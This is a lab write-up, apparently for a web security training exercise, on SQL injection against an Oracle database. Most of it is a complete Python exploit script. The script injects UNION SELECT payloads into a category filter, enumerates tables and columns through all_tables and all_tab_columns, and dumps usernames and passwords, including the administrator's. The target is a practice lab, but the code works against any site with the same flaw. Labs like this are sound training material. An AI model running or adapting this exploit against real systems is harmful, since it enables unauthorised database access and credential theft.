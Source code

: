 ```yaml
---
title: '6 SQLi Lab'
description: 'SQL injection for metadata enumeration and admin credential extraction on Oracle databases'
---
```



## SQL injection attack, listing the database contents on Oracle

<div style="text-align: justify;">
  This lab demonstrates how SQL injection (SQLi) on an Oracle database can be used to enumerate metadata and extract user credentials. The vulnerable product category filter returns query results in the application's response, allowing a `UNION SELECT` attack to pull data from system metadata tables such as `all_tables` and `all_tab_columns`. Because Oracle requires a `FROM` clause for every `SELECT`, the built-in `dual` table is useful when selecting constant values during enumeration.

  By determining the number of columns and which columns hold text, I enumerated table names, discovered the user table, retrieved column names for username and password fields, and finally dumped user credentials — including the administrator account needed to complete the lab.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- First confirm the number of columns and which return text (e.g. `'+UNION+SELECT+'abc','def'+FROM+dual--`).
- Use `all_tables` to list table names (Oracle-specific system view).
- Use `all_tab_columns` to enumerate column names for the discovered user table.
- Identify the username and password column names.
- Perform a final `UNION SELECT` to dump usernames and passwords from the discovered table (remember Oracle requires `FROM <table>`; use `dual` when selecting constants).
- Locate the administrator row and use the recovered password to log in.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp proxy settings
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Verifies that Burp Suite is running and listening on the configured proxy.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.RequestException:
        print("[-] Burp Suite proxy is not reachable. Please start Burp.")
        sys.exit(1)

def get_users_table_name(url):
    """
    Extracts the users table name by querying the 'all_tables' in Oracle.
    """
    print("[*] Trying to extract users table name...")
    payload = "' UNION SELECT table_name, NULL FROM all_tables --"
    uri = '/filter?category='

    try:
        res = requests.get(url + uri + payload, verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Request failed while fetching table names: {e}")
        sys.exit(1)

    soup = BeautifulSoup(res.text, 'html.parser')
    for th in soup.find_all('th'):
        if th.text.lower().startswith("users"):
            print(f"[+] Found users table: {th.text}")
            return th.text

    print("[-] Users table not found.")
    sys.exit(1)

def get_column_names(url, table_name):
    """
    Extracts username and password column names from the given table in Oracle.
    """
    print(f"[*] Extracting columns from table: {table_name}")
    payload = f"' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='{table_name}' --"
    uri = '/filter?category='

    try:
        res = requests.get(url + uri + payload, verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Request failed while fetching columns: {e}")
        sys.exit(1)

    soup = BeautifulSoup(res.text, 'html.parser')
    username_col = password_col = None

    for th in soup.find_all('th'):
        if th.text.lower().startswith("username"):
            username_col = th.text
        if th.text.lower().startswith("password"):
            password_col = th.text

    if username_col and password_col:
        print(f"[+] Found username column: {username_col}")
        print(f"[+] Found password column: {password_col}")
        return username_col, password_col

    print("[-] Required columns not found.")
    sys.exit(1)

def get_admin_credentials(url, table_name, username_col, password_col):
    """
    Extracts administrator credentials from the table using the discovered columns in Oracle.
    """
    print("[*] Extracting administrator credentials...")
    payload = f"' UNION SELECT {username_col}, {password_col} FROM {table_name} --"
    uri = '/filter?category='

    try:
        res = requests.get(url + uri + payload, verify=False, proxies=proxies)
        res.raise_for_status()
    except requests.RequestException as e:
        print(f"[-] Request failed while retrieving credentials: {e}")
        sys.exit(1)

    soup = BeautifulSoup(res.text, 'html.parser')
    admin_entry = soup.find('th', string='administrator')

    if admin_entry:
        username = admin_entry.text.strip()
        password = admin_entry.find_next_sibling('td').text.strip()
        print(f"[+] Administrator credentials found!")
        print(f"    Username: {username}")
        print(f"    Password: {password}")
    else:
        print("[-] Administrator credentials not found in the response.")

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://target.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    check_burp()
    users_table = get_users_table_name(url)
    username_col, password_col = get_column_names(url, users_table)
    get_admin_credentials(url, users_table, username_col, password_col)

if __name__ == "__main__":
    main()
```
